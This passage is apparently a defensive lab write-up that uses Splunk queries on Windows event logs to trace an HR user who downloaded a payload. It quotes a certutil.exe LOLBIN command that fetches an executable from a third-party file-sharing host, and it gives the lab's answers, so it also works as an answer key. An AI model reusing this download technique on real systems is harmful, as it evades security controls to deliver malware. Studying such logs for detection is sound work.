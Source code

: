 **Answer** : Chris.fort

### Q. Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.

```bash
index=”win_eventlogs” (UserName=”haroon” OR UserName=”Chris.fort” OR UserName=”Daina”) |table UserName ProcessName CommandLine | dedup ProcessName
```

With this command, we query all processes ran by the HR team members and the command associated with no duplicate processes.

<img width="1703" height="257" alt="Capture d'écran 2025-07-22 182151" src="https://github.com/user-attachments/assets/435a242b-d515-4f37-91a3-e50517b785c7" />

With the help of the `CommandLine` field, we find a  suspicious command ran by user **haroon** : `certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe` 

We can deduce that Haroon ran this command to download the `benign.exe` file from https://controlc.com/e4d11035 via the `certutil.exe` process.

We can confirm that this process is a LOGBIN process by checking its name on lolbas-project.github.io/ as suggested by the hint given with the question.
And effectively, `certutil.exe` is a binary used to download payloads.

<img width="1010" height="196" alt="Capture d'écran 2025-07-22 182943" src="https://github.com/user-attachments/assets/689e295b-f5b9-4b2a-9255-a150e51038e4" />

**Answer** : haroon

### Q. To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?

We already know the answer from the previous question.

**Answer** : certutil.exe

### Q. What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)

All we need is to add the `EventTime` field to the table of the previous 2 questions to obtain the time at which haroon executed `certutil.exe` to download the `benign.exe` payload

```bash
index="win_eventlogs" (UserName="Daina" OR UserName="haroon" OR UserName="Chris.fort") | table UserName ProcessName CommandLine EventTime | dedup ProcessName
```

<img width="1519" height="62" alt="Capture d'écran 2025-07-22 183357" src="https://github.com/user-attachments/assets/00419525-d0ea-4778-a64c-2c9de67420bb" />

**Answer** : 2022-03-04

For the remaining questions, I will give the answers directly since we already found them alongside the answer for Question 4.

### Q. Which third-party site was accessed to download the malicious payload ?
